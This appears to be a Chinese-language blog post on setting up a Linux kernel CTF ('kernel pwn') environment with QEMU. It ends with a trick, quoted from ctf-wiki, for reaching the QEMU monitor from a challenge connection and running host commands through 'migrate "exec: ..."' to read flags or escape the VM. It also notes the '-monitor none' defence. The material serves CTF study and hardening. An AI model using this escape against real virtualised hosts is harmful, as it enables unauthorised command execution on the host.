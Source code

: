 ```yaml
---
layout: post
tags: [kernel_pwn]
title: "kernel security 2: ptracticing"
author: wsxk
date: 2025-9-16
comments: true
---
```


- [1. kernel 环境搭建](#1-kernel-环境搭建)
  - [1.1 自安装](#11-自安装)
  - [1.2 一键式脚本](#12-一键式脚本)
  - [1.3 kernel debug](#13-kernel-debug)
- [特典: kernel pwn tricks:](#特典-kernel-pwn-tricks)
  - [特典一：qemu monitor模式](#特典一qemu-monitor模式)


# 1. kernel 环境搭建<br>
kernel环境搭建需要4个部分:<br>
```
1. 编译器compiler： gcc，用于编译内核模块和内核
2. 内核 kernel： 无需多言，内核elf文件
3. 文件系统 filesystem： 用于存储，有了它，内核才可以存放各种文件。
4. 模拟器 emulator： 多数情况下指的是qemu，用于模拟执行内核
```
## 1.1 自安装<br>
可参考我22年左右写的blog，[https://wsxk.github.io/ubuntu_kernel%E7%8E%AF%E5%A2%83%E6%90%AD%E5%BB%BA/](https://wsxk.github.io/ubuntu_kernel%E7%8E%AF%E5%A2%83%E6%90%AD%E5%BB%BA/)<br>
自己安装是非常复杂的操作.<br>

## 1.2 一键式脚本<br>
pwn.college提供了一键式脚本:<br>
[https://github.com/pwncollege/pwnkernel/tree/main](https://github.com/pwncollege/pwnkernel/tree/main)<br>
直接运行即可，方便快捷~<br>
考虑到仓库的更新时间，使用ubuntu22虚拟机会是个比较好的选择。<br>

## 1.3 kernel debug<br>




# 特典: kernel pwn tricks:<br>
这些特典或许不能帮助我们理解kernel，但是可以帮助我们ctf题目中快速拿分！<br>
## 特典一：qemu monitor模式<br>
`QEMU monitor` 是 QEMU 内置的一个交互式控制台窗口，主要用于监控和管理虚拟机的状态。由于 Linux kernel pwn 题目通常使用 QEMU 创建虚拟机环境，因此若是未禁止选手对 QEMU monitor 的访问，则选手可以直接获得整个虚拟机的访问权限。同时，由于 QEMU monitor 支持在 host 侧执行命令，因此也可以直接读取题目环境中的 flag，这同时意味着我们还能可以利用 QEMU monitor 完成虚拟化逃逸。<br>
***对于出题人而言，应当时刻保证 QEMU 的参数包含一行 -monitor none 或是 -monitor /dev/null 以确保选手无法访问 QEMU monitor。***<br>
通常情况下，进入 QEMU monitor 的方法如下:<br>
```
1. 首先同时按下 CTRL + A
2. 接下来按 C
```
使用 pwntools 脚本时，可以通过发送 `"\x01c"` 完成，例如：<br>
```python
p = remote("localhost", 11451)
p.send(b"\x01c")
```
在 QEMU monitor 当中有一条比较好用的指令叫做`migrate`，其支持我们执行特定的 URI：<br>
```
(qemu) help migrate
migrate [-d] [-r] uri -- migrate to URI (using -d to not wait for completion)
                         -r to resume a paused postcopy migration
```
其中，**`URI 可以是 'exec:<command>' 或 tcp:<ip:port>`**，前者支持我们直接在宿主机上执行命令，例如下面的命令在宿主机上执行了 ls 命令：<br>
```
migrate "exec: sh -c ls"
```
有的时候可能会由于一些特殊原因遇到没有输出的情况，这个时候可以尝试将 stdout 重定向至 stderr，例如：
```
(qemu) migrate "exec: whoami"
qemu-system-x86_64: failed to save SaveStateEntry with id(name): 2(ram): -5
qemu-system-x86_64: Unable to write to command: Broken pipe
qemu-system-x86_64: Unable to write to command: Broken pipe
(qemu) migrate "exec: whoami 1>&2"
arttnba3
qemu-system-x86_64: failed to save SaveStateEntry with id(name): 2(ram): -5
qemu-system-x86_64: Unable to write to command: Broken pipe
qemu-system-x86_64: Unable to write to command: Broken pipe
(qemu) 
```

[https://ctf-wiki.org/pwn/linux/kernel-mode/exploitation/tricks/qemu-monitor/](https://ctf-wiki.org/pwn/linux/kernel-mode/exploitation/tricks/qemu-monitor/)<br>


<!-- Google tag (gtag.js) -->
<script async src="https://www.googletagmanager.com/gtag/js?id=G-C22S5YSYL7"></script>
<script>
  window.dataLayer = window.dataLayer || [];
  function gtag(){dataLayer.push(arguments);}
  gtag('js', new Date());

  gtag('config', 'G-C22S5YSYL7');
</script>